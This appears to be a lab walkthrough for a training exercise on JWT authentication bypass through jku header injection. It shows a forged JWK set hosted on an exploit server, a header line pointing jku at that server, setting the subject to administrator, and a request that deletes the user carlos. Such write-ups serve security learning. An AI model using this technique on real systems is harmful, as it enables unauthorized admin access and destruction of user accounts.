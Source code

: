 # JWT authentication bypass via jku header injection

## This lab uses a JWT-based mechanism for handling sessions. The server supports the `jku` parameter in the JWT header. However, it fails to check whether the provided URL belongs to a trusted domain before fetching the key.

## To solve the lab, forge a JWT that gives you access to the admin panel at `/admin`, then delete the user `carlos`.

## You can log in to your own account using the following credentials: `wiener:peter`

---

step 1

![](images/lab5_my_account.jpg)

step 2

![](images/lab5_admin_request.jpg)

step 3

![](images/lab5_rsa_key_generated.jpg)

step 4
![](images/lab5_example_jwk.jpg)
format for payload

```json
{
"keys": [
{body1},
{body2}
]
}
```

![](images/lab5_rsa_file_copy_for_public_key.jpg)

```json
{
  "kty": "RSA",
  "e": "AQAB",
  "kid": "6042f3a7-58b7-49b5-8cd4-57e8f34a89fb",
  "n": "1dEdwHsmAwb4x39cVNqXXmrv2uy4k_YnuYYxX81jbE4C4BBmu_W9OrYUQo_k8p5E_bK7hI4xD3TFYiqqgQewHDYAEaqG0mgP0TshPn6ZiLhynfUrq402iy3GxRP3VbIVC1WF62U_1X_2SW2HKwBZwS5nj_z25FApFpzWI37SBj0t4C9jV7bcq1a8e71Xzfkbe1Sa7kAFMtt5Pf-QK1hXQHqWj10T3-wFRPvTQV7JYzvOoiqk0qWSOgxPwNpTxQMhs5QVwqdErq9EU8d9ikgjuL5vEUHvQXrZch8Ryepdw49uxayInIupmBtu7BOmnwDJLVZj6QGNQ4RkVIltkcSm7Q"
}
```

final payload
look like

```json
{
  "keys": [
    {
      "kty": "RSA",
      "e": "AQAB",
      "kid": "6042f3a7-58b7-49b5-8cd4-57e8f34a89fb",
      "n": "1dEdwHsmAwb4x39cVNqXXmrv2uy4k_YnuYYxX81jbE4C4BBmu_W9OrYUQo_k8p5E_bK7hI4xD3TFYiqqgQewHDYAEaqG0mgP0TshPn6ZiLhynfUrq402iy3GxRP3VbIVC1WF62U_1X_2SW2HKwBZwS5nj_z25FApFpzWI37SBj0t4C9jV7bcq1a8e71Xzfkbe1Sa7kAFMtt5Pf-QK1hXQHqWj10T3-wFRPvTQV7JYzvOoiqk0qWSOgxPwNpTxQMhs5QVwqdErq9EU8d9ikgjuL5vEUHvQXrZch8Ryepdw49uxayInIupmBtu7BOmnwDJLVZj6QGNQ4RkVIltkcSm7Q"
    }
  ]
}
```

step 5
copy final payload to exploit and click on store

![](images/lab5_exploit_pyload_store.jpg)

step 6

- add in header ` "jku": "https://exploit-0ae000a00424bb2e807db60001ce0021.exploit-server.net/exploit"`
- change payload with `"sub": "administrator"`
- click on sign in, pop will appear don't modify header click ok
- send Get /admin request you will get 200 ok

![](images/lab5_modidy_header_add_jku.jpg)

when you will get 200 ok go to bottom
you will see admin panel and wiener and carlos account delete operation

![](images/lab5_admin_panel.jpg)

step 6
send GET /admin/delete?username=carlos request to solve lab

![](images/lab5_delete_carlos_account.jpg)

![](images/lab5_solved_lab.jpg)
